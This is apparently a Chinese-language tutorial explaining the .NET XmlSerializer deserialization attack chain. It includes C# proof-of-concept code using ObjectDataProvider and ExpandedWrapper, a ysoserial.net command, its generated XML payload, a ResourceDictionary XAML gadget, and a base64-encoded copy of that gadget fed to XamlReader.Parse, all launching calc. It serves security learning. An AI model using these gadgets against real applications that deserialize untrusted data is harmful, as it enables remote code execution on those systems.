






基础链-XmlSerializer链
目录
XmlSerializer序列化/反序列化
来个demo
我们把要序列化的类用[XmlRoot]，[XmlAttribute]，[XmlElement]特性分别指定根节点，节点属性，节点元素。 然后用XmlSerializer 进行序列化和反序列化
using System;
using System.Runtime.Serialization;
using System.Runtime.Serialization.Formatters.Binary;
using System.Security.Permissions;
using System.Xml.Serialization;
namespace ConsoleAppi1;
[XmlRoot]
public class Person
{
[XmlAttribute]
public string name { get; set; }
[XmlElement]
public int age { get; set; }
[XmlElement]
public string sex { get; set; }
}
public class MyObject
{
static void Main(string[] args)
{
Person p1 = new Person();
p1.age = 20;
p1.name = "tom";
p1.sex = "male";
FileStream fstream = new FileStream("E:/tools/dotnet/hellowold/Solution1/ser.bin", FileMode.OpenOrCreate, FileAccess.ReadWrite, FileShare.ReadWrite);
//XmlSerializer xmlSerializer = new XmlSerializer(typeof(Person));
//XmlSerializer xmlSerializer = new XmlSerializer(p1.GetType());
XmlSerializer xmlSerializer = new XmlSerializer(Type.GetType("ConsoleAppi1.Person"));
xmlSerializer.Serialize(fstream,p1);
fstream.Position = 0;
Person p1des =(Person) xmlSerializer.Deserialize(fstream);
Console.WriteLine(p1des.name);
}
}
反序列化后成功输出

这是序列化后的内容

同时我们在上面的代码中可以看到在实例化XmlSerializer 时，在传入的参数中我们用到了Type.GetType方法去获取需要被序列化/反序列化的类的type。 除了用Type.GetType外，在注释的几行里我们还可以发现，可以用 typeof(ClassName) 和 Object.GetType() 去获取。
攻击链
ObjectDataProvider
要打造围绕XmlSerializer 的攻击链，我们需要先了解一下ObjectDataProvider这个类，这个类可以帮助我们进行命令执行等操作。
这个类位于System.Windows.Data下（如果rider提示找不到包，就添加PresentationFramework依赖，注意我当前的环境是.NET FrameWork）。

前置知识：在.net中我们可以通过方法System.Diagnostics.Process.start()来执行命令，就像java里的 Runtime.getRuntime.exec() 一样。
ObjectDataProvider o = new ObjectDataProvider();
o.MethodParameters.Add("calc");
o.MethodName = "Start";
o.ObjectInstance = new System.Diagnostics.Process();
这段代码执行后后在内部调用System.Diagnostics.Process.start弹计算器出来。 ObjectInstance用于指定对象，MethodName用于指定要被调用的方法，MethodParameters指定被调用方法的参数，参数用Add添加。
同时这段代码在通过xmlserializer反序列化时依旧能够起到命令执行的作用，但是直接反序列化会遇到一些问题
using System;
using System.IO;
using System.Windows.Data;
using System.Xml.Serialization;
namespace ConsoleApplication1
{
[XmlRoot]
public class evil
{
public void evilfunc(string c)
{
System.Diagnostics.Process.Start(c);
}
}
class Program
{
public static void Main(string[] args)
{
ObjectDataProvider op = new ObjectDataProvider();
op.ObjectInstance = new evil();
op.MethodName = "evilfunc";
op.MethodParameters.Add("calc");
FileStream fileStream = new FileStream("E:/tools/dotnet/hellowold/Solution1/ser.bin", FileMode.OpenOrCreate,
FileAccess.ReadWrite, FileShare.ReadWrite);
XmlSerializer xmlSerializer = new XmlSerializer(typeof(ObjectDataProvider));
xmlSerializer.Serialize(fileStream,op);
}
}
}
直接反序列化会报下面的错。因为我们往XmlSerializer 传入的type是ObjectDataProvider，但是实际上我们的ObjectDataProvider中有含有evil类，就会导致类型错误。

解决方案是用ExpandedWrapper进行包装（如果找不到这个类，rider里右键Dependencies→add References→ System.Data.Services)
就像这样
ExpandedWrapper本质上是一个泛型类，可以封装非特定数据类型的对象。
using System;
using System.IO;
using System.Windows.Data;
using System.Xml.Serialization;
using System.Data.Services.Internal;
namespace ConsoleApplication1
{
[XmlRoot]
public class evil
{
public void evilfunc(string c)
{
System.Diagnostics.Process.Start(c);
}
}
class Program
{
public static void Main(string[] args)
{
ExpandedWrapper<evil, ObjectDataProvider> ew = new ExpandedWrapper<evil, ObjectDataProvider>();
ew.ProjectedProperty0 = new ObjectDataProvider();
ew.ProjectedProperty0.ObjectInstance = new evil();
ew.ProjectedProperty0.MethodName = "evilfunc";
ew.ProjectedProperty0.MethodParameters.Add("calc");
FileStream fileStream = new FileStream("E:/tools/dotnet/hellowold/Solution1/ser.bin", FileMode.OpenOrCreate,
FileAccess.ReadWrite, FileShare.ReadWrite);
XmlSerializer xmlSerializer = new XmlSerializer(typeof(ExpandedWrapper<evil, ObjectDataProvider>));
xmlSerializer.Serialize(fileStream,ew);
fileStream.Position = 0;
xmlSerializer.Deserialize(fileStream);
}
}
}
反序列化后成功弹出计算器。
ResourceDictionary
我们在上一小节讲了ObjectDataProvider并写了一个小demo，但是仅仅是那样的话，威胁还不够大，我们需要找到一个现存的恶意类，并且还要控制反序列化的内容，以及实例化XmlSerializer时传入的参数才有可能完成攻击。
我们可以用ysoserial.net来生成一段XmlSerializer反序列化的payload https://github.com/pwntester/ysoserial.net/releases/tag/v1.34
.\ysoserial.exe -g objectdataprovider -c calc -f xmlserializer
<?xml version="1.0"?>
<root type="System.Data.Services.Internal.ExpandedWrapper`2[[System.Windows.Markup.XamlReader, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35],[System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]], System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089">
<ExpandedWrapperOfXamlReaderObjectDataProvider xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" >
<ExpandedElement/>
<ProjectedProperty0>
<MethodName>Parse</MethodName>
<MethodParameters>
<anyType xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xsi:type="xsd:string">
<![CDATA[<ResourceDictionary xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation" xmlns:d="http://schemas.microsoft.com/winfx/2006/xaml" xmlns:b="clr-namespace:System;assembly=mscorlib" xmlns:c="clr-namespace:System.Diagnostics;assembly=system"><ObjectDataProvider d:Key="" ObjectType="{d:Type c:Process}" MethodName="Start"><ObjectDataProvider.MethodParameters><b:String>cmd</b:String><b:String>/c calc</b:String></ObjectDataProvider.MethodParameters></ObjectDataProvider></ResourceDictionary>]]>
</anyType>
</MethodParameters>
<ObjectInstance xsi:type="XamlReader"></ObjectInstance>
</ProjectedProperty0>
</ExpandedWrapperOfXamlReaderObjectDataProvider>
</root>
但是它生成的payload对于新手分析起来难免有点恼火，所以我参考了Y4er提供的payload
<ResourceDictionary
xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation"
xmlns:d="http://schemas.microsoft.com/winfx/2006/xaml"
xmlns:b="clr-namespace:System;assembly=mscorlib"
xmlns:c="clr-namespace:System.Diagnostics;assembly=system">
<ObjectDataProvider d:Key="" ObjectType="{d:Type c:Process}" MethodName="Start">
<ObjectDataProvider.MethodParameters>
<b:String>cmd</b:String>
<b:String>/c calc</b:String>
</ObjectDataProvider.MethodParameters>
</ObjectDataProvider>
</ResourceDictionary>
这段payload实际上是xaml（可以理解为和xml相近的语言），解读如下：
- xmlns:c 引用了System.Diagnostics命名空间起别名为c
- d:Key="" 起别名为空，在xaml语法中，Key这个键值必须有。
- ObjectType表示对象类型
- d:Type 等同于typeof()，那么 d:Type c:Process 就相当于 typeof(System.Diagnostics.Process)
- MethodName是ObjectDataProvider的属性，传递一个Start等于调用Start方法。
如果这段xaml被解析，那么就相当于创建了一个ObjectDataProvider 对象去执行System.Diagnostics.Process.start("calc")
那么如何被解析呢？
网上大致有两种思路
1.实例化XmlSerializer时传入的type可控，且XmlSerializer.Deserialize的参数可控，但是由于Deserialize方法并不能接收string参数，所以说这个思路可能更加适合通过代码审计发现一些新的链（这样的话就没必要用到ResourceDictionary了）
2.使用XamlReader.Parse ，这个方法可以直接传入string参数
下面用XamlReader.Parse解析一下上面的xaml
string p = "PFJlc291cmNlRGljdGlvbmFyeSAKICAgICAgICAgICAgICAgICAgICB4bWxucz0iaHR0cDovL3NjaGVtYXMubWljcm9zb2Z0LmNvbS93aW5meC8yMDA2L3hhbWwvcHJlc2VudGF0aW9uIiAKICAgICAgICAgICAgICAgICAgICB4bWxuczpkPSJodHRwOi8vc2NoZW1hcy5taWNyb3NvZnQuY29tL3dpbmZ4LzIwMDYveGFtbCIgCiAgICAgICAgICAgICAgICAgICAgeG1sbnM6Yj0iY2xyLW5hbWVzcGFjZTpTeXN0ZW07YXNzZW1ibHk9bXNjb3JsaWIiIAogICAgICAgICAgICAgICAgICAgIHhtbG5zOmM9ImNsci1uYW1lc3BhY2U6U3lzdGVtLkRpYWdub3N0aWNzO2Fzc2VtYmx5PXN5c3RlbSI+CiAgICA8T2JqZWN0RGF0YVByb3ZpZGVyIGQ6S2V5PSIiIE9iamVjdFR5cGU9IntkOlR5cGUgYzpQcm9jZXNzfSIgTWV0aG9kTmFtZT0iU3RhcnQiPgogICAgICAgIDxPYmplY3REYXRhUHJvdmlkZXIuTWV0aG9kUGFyYW1ldGVycz4KICAgICAgICAgICAgPGI6U3RyaW5nPmNtZDwvYjpTdHJpbmc+CiAgICAgICAgICAgIDxiOlN0cmluZz4vYyBjYWxjPC9iOlN0cmluZz4KICAgICAgICA8L09iamVjdERhdGFQcm92aWRlci5NZXRob2RQYXJhbWV0ZXJzPgogICAgPC9PYmplY3REYXRhUHJvdmlkZXI+CjwvUmVzb3VyY2VEaWN0aW9uYXJ5Pg==";
byte[] vs = Convert.FromBase64String(p);
string xml = Encoding.UTF8.GetString(vs);
XamlReader.Parse(xml);


Ref:
https://github.com/Y4er/dotnet-deserialization/blob/main/XmlSerializer.md
https://www.anquanke.com/post/id/172316#h3-8
https://blog.51cto.com/u_13953961/3106574